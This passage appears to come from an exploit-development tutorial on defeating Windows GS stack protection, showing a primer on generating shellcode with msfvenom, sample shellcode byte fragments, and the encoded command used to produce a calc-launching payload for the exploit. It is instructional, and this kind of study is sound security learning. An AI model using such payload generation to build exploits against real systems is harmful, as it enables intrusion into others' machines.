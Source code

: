 ### Generate Shellcode with msfvenom

The last thing we need to complete the exploit is shellcode.  In my exploit I'll launch a simple POP calc shellcode.

The command line tool `msfvenom` generates payloads on the fly.  It comes installed with Metasploit Framework and combines the msfpayload and msfencode tools from older versions of MSF.  In my experience, it quickly generates reliable shellcode for a variety of systems.  This section provides a short `msfvenom` primer, so feel free to [skip] if you are already familiar.

[skip]: #results "skip to next section"

The basic syntax to generate a payload requires at minimum two arguments (-p and -f):

```
$ msfvenom -p [payload] OPTION=value .... -f [output format]
```

* **-p [payload]** sets the payload to generate.  In this exploit, I use the "windows/exec" payload that executes an arbitrary command ("windows/x64/exec" is the x64 version).
     To see what payloads are available from Framework:
  - `msfvenom -l payloads | grep windows` lists all payloads and greps for Windows payloads only.
  - `msfvenom -p [payload] --list-options` lists the options that we need to set for each payload.  To use windows/exec, there are two basic options that must be specified by the user.  Default values under Current Settings can be accepted by leaving the option out of the command.
  ```
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  CMD                        yes       The command string to execute
  EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
  ```
* **-f [format]** specifies the output format.  If not specified, `msfvenom` will output the payload in raw bytes.
  - `msfvenom -l formats` lists supported formats.
  - There are two types of formats: Executable and Transform.  The former saves the shellcode as an application and the latter will output shellcode to the screen that is ready to be copy and pasted in the language of your exploit / language your exploit is written in.
    - For instance, `-f python` outputs the payload in python format:
    ```
    buf =  ""
    buf += "\xdb\xc5\xb8\xb5\x95\xa8\x9c\xd9\x74\x24\xf4\x5f\x29"
    buf += "\xc9\xb1\x31\x83\xc7\x04\x31\x47\x14\x03\x47\xa1\x77"
    ```
    `-f c` outputs the payload in C format:
    ```
    unsigned char buf[] = "\xdb\xde\xd9\x74\x24\xf4\x5e\xb8\x8c\xc0\xba\x17\x31\xc9\xb1";
    ```
    `-f perl` outputs the payload in perl format:
    ```
    my $buf = "\xbb\x6a\xe1\xea\x51\xd9\xce" . "\xd9\x74\x24\xf4\x58\x29\xc9";
    ```
* **-h** displays information for additional arguments.

The shellcode I use in this exploit is generated with:

```
$ msfvenom -p windows/exec CMD=calc.exe -f python -e x86/shikata_ga_nai -b '\x00\x0a\x0d' -v shellcode
```


[Section 1]: #overview-of-windows-mitigations "overview of mitigations"
[Section 2]: #vulnerability "GS vulnerability"
[Section 3]: #exploit-development
[Section 4]: #running-the-exploit
[earlier]: #overview-of-windows-mitigations "overview"
[2]: https://en.wikipedia.org/wiki/Buffer_overflow_protection#Random_XOR_canaries
[As previously discussed]: #prologue-and-epilogue "prologue and epilogue"
[previous section]: #leveraging-memleak-vulnerability "leveraging memleak vulnerability"
[next section]: #finding-return-address "finding return address"
[more on this later]: #running-the-exploit
[1]: https://docs.microsoft.com/en-us/cpp/build/reference/gs-buffer-security-check